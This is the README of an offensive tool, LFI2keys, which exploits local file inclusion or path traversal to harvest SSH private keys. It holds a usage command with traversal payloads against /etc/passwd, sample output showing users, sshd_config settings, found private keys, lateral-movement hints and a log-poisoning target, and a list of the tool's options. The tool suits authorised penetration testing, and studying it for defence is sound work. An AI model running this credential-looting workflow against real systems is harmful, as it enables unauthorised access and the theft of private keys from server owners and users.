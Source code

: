 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-extended.txt -a -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[*] The script provided is for educational purposes only, I am not responsible for your actions.
[+] Valid /etc/passwd file found
[+] Valid users exported:
    root -> /root (UID: 0)
    miranda -> /home/miranda (UID: 1001)
    steven -> /home/steven (UID: 1002)
    mark -> /home/mark (UID: 1003)
    nick -> /home/nick (UID: 1004)
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys, known_hosts and .ssh/config)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys
[!] Found authorized_keys.bak for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys.bak
[!] Found known_hosts for miranda: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/known_hosts
[!] SSH config found for mark (https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/config) - lateral movement might be possible
    Host: TestServer
       HostName: 192.168.1.10
       User: Thunderdome
       Port: 2222
       IdentityFile: ~/.ssh/gabber.key
[!] Private key found for mark at: https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/gabber.key
[+] Starting to FUZZ
[!] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/id_rsa
[!] Private key found for steven at: https://127.0.0.1/cgi-bin/.%2e/.%2e/home/test/.ssh/id_ecdsa-sk
[+] No accessible SSH keys found for additional directories
[!] Log file found: https://127.0.0.1/cgi-bin/.%2e/.%2e/var/log/auth.log - this file may be used for log poisoning if writable
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u, --url URL         LFI URL pointing to /etc/passwd
  -l, --list LIST       Wordlist containing SSH private key names
  -o, --output OUTPUT   File to save found private key URLs and contents
  -p, --proxy PROXY     Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory and additional paths
  --ignore-403          Continue scanning even if a 403 status code is encountered
  --no-rate-limit       Disable rate limiting on proxy (for debug/testing purposes)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
